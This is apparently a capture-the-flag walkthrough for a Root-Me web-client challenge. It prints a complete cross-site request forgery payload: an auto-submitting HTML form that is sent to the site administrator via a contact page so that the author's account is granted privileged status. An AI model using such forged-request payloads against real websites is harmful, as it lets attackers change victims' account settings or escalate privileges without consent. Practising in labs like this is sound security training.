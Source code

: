 Create an account on the website. Here, we will create a account with test as username, and test as password.

The idea is to use the form on http://challenge01.root-me.org/web-client/ch22/?action=profile to check our status, and gain access to the private section.

If we look into the form, we see that we need to submit a

```
<input type="text" name="username" value="test">
<input type="checkbox" name="status" checked>
```

After reading the documents, we understand that if the admin execute this code:

```
<form id="theForm" method="post" enctype="multipart/form-data" action="http://challenge01.root-me.org/web-client/ch22/?action=profile">
	<input type="text" name="username" value="test">
	<input type="checkbox" name="status" checked>
	<button type="submit">Submit</button>
</form>
<script>document.getElementById("theForm").submit()</script>
```

Then we will gain access. Well, just send this through the "Contact" page.

Go back to the private page, wait patiently a minute, refresh, and get the flag.
